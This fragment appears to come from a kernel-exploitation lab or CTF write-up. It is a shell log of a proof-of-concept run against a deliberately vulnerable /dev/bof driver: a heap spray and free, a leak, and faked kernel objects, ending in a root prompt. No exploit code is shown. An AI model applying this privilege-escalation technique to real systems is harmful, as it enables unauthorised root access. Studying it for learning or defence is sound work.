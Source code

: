 ```shell
/mytest # ./makeuser.sh 
[    3.503795] bof_major /dev/bof: 248
passwd: unknown uid 0
/mytest $ ./poc
0x1903860
mmap_addr: 0x81000000
[    4.299382] alloc: 0xffff88000240a000, size: 2e0
[    4.300876] alloc: 0xffff880002468000, size: 2e0
[    4.300997] alloc: 0xffff880002468400, size: 2e0
[    4.301071] alloc: 0xffff880002468800, size: 2e0
[    4.301144] alloc: 0xffff880002468c00, size: 2e0
[    4.301253] alloc: 0xffff880002469000, size: 2e0
[    4.301358] alloc: 0xffff880002469400, size: 2e0
[    4.301460] alloc: 0xffff880002469800, size: 2e0
[    4.301562] alloc: 0xffff880002469c00, size: 2e0
[    4.301673] alloc: 0xffff88000246a000, size: 2e0
[    4.301814] free: 0xffff880002468400
[    4.301911] free: 0xffff880002468800
[    4.301994] free: 0xffff880002468c00
[    4.302075] free: 0xffff880002469000
[    4.335180] copy_to_user: 0x5401
 1 54  0  0  1  0  0  0  0  0  0  0  0  0  0  0 
fake in buf:0x1903978
copy fake to kernel(2)
copy fake to kernel(3)
copy fake to kernel(4)
copy fake to kernel(5)
/mytest # 
```

